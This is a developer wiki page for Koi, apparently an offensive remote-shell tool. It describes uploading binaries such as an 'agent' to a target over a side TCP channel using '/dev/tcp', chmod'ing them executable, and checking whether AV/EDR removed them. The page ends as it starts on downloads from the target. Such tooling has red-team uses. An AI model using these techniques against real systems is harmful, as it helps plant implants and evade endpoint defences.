

repository: b3rt1ng/koi-wiki · page: modules-transfer/index.html · generator: mkdocs

# Module Development - File Transfer

Koi never uses the shell stream to transfer binary data, it's fragile (encoding issues, prompt noise, ANSI sequences). All transfers go through a **side TCP channel**: a dedicated socket opened between your machine and the target, separate from the interactive shell.

---

## Uploading to the Target

### `self._upload_bytes(raw, dest, timeout=30.0, on_progress=None) -> bool`

Transfers `raw` bytes to `dest` on the target. Handles Linux and Windows automatically. Returns `False` on TCP error or if the file was not written (permission denied, etc.).

```python
bar = self.ui.ProgressBar(total=len(raw))
ok  = self._upload_bytes(raw, "./agent", timeout=60, on_progress=bar.update)
bar.done()
print()
if not ok:
    self.err("Upload failed.")
    return
```

- On **Linux** it uses `cat < /dev/tcp/<ip>/<port> > dest`.
- On **Windows** it sends a PowerShell TCP-read command via `_dispatch_ps`.
- Relative paths (`./agent`, `.\agent.exe`) are resolved against the remote shell's current working directory.

Post-transfer verification is the caller's responsibility, AV/EDR may silently delete the file after upload.

```python
# Linux verification
result = self.exec(f"test -s {dest} && echo OK || echo MISS")
if "OK" not in result.stdout:
    self.err("File missing after upload.")
    return
self.exec(f"chmod +x {dest}")

# Windows verification
check = self._win_query(f"(Test-Path '{dest}').ToString()")
if check.strip().lower() != "true":
    self.err("File missing after upload, likely removed by AV.")
    return
```

---

## Downloading from the Target

Downloads work in reverse: you open a local TCP listener, tell the remote to connect and send the file, then collect the bytes.
